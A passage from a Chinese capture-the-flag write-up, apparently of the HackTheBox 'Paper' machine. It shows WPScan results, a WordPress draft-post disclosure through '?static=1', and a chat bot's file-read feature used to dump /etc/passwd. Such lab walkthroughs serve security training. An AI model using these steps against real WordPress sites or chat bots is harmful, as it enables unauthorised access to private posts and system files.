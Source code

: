 ```
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=========================================================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Mar 26 15:11:37 2022
[+] Requests Done: 185
[+] Cached Requests: 5
[+] Data Sent: 44.587 KB
[+] Data Received: 18.252 MB
[+] Memory used: 266.254 MB
[+] Elapsed time: 00:00:11
```

[Unauthenticated View Private/Draft Posts](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261515217.png)

[http://office.paper/?static=1](http://office.paper/?static=1)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261517634.png)

把`10.10.11.143    chat.office.paper`加到`/etc/hosts`里面

---

聊天室里面有一个叫`Recyclops`的机器人,可以进行文件读取

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261523589.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261526615.png)

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
```